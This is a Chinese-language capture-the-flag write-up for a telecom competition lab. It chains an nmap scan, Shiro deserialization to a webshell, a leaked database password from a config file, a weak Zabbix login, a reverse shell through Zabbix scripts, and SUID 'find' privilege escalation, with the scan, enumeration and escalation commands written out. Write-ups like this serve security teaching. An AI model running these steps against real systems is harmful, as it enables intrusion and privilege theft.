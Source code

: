 # 电信初赛-aws

## 0x00 资产发现

1. 使用 nmap 扫描, 发现站点

```
nmap -p- -v -sS 172.17.0.3

Nmap scan report for 172.17.0.3
Host is up (0.00075s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE
10055/tcp open qptlmd
27689/tcp open unknown
MAC Address: 00:0C:29:4D:62:17 (VMware
```

![](vx_images/5929553211142.png)

## 0x01 Shiro 反序列利用 getshell

使用 Shiro 反序列化利用工具, 获取到内网地址为 172.17.0.2 的 shell, 上传蚁剑马获取 webshell

在根目录中读取到 flag1

![](vx_images/1247654229568.png)

## 0x02 获取数据库权限

通过翻看配置文件, 得到 172.17.0.3 的数据库密码, 在数据库中找到 flag2

```
jdbc.driverClassName=com.mysql.jdbc.Driver
jdbc.url=jdbc:mysql://172.17.0.3:3306/jeecmsv9?characterEncoding=UTF-8
jdbc.username=root
jdbc.password=chaitin20201
```

![](vx_images/4333854217435.png)

继续翻数据库找到管理员账号及密码的 hash, 在[cmd5](https://cmd5.com/)网站中解密得到管理员密码, 登录后台后翻看页面源代码获取到 flag3

![](vx_images/95155237601.png)

![](vx_images/1337455230270.png)

## 0x03 通过弱口令进入 zabbix 后台

向 172.17.0.2 中上传 fscan 发现 172.17.0.1 还运行着服务, 通过本地信息收集, 发现其为 zabbix 服务端. 访问发现是一个 web 界面, 使用弱口令扫描得到账号密码 Admin/password, 登陆后得到 flag4

## 0x04 获取 zabbix 服务器权限

通过前台的 Zabbix 脚本功能可以运行 bash 命令, 通过反弹 shell 的方式获取到 zabbix 服务器权限, 但是此时的用户为低权用户, 只能查看 flag, 此时得到 flag5

## 0x05 suid 提权

由于是低权账号, 因此考虑提权. 根据提权三板斧:

> suid 提权
> 应用漏洞提权
> 内核提权

我们先考虑 suid 提权, 运行一下命令查看系统内的 root 权限运行的 suid 程序:

```
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```

发现有 find 命令, 于是运行以下命令获取到 root 权限:

```
sudo find . -exec /bin/sh \; -quit
```

最后在 root 目录下发现 flag6
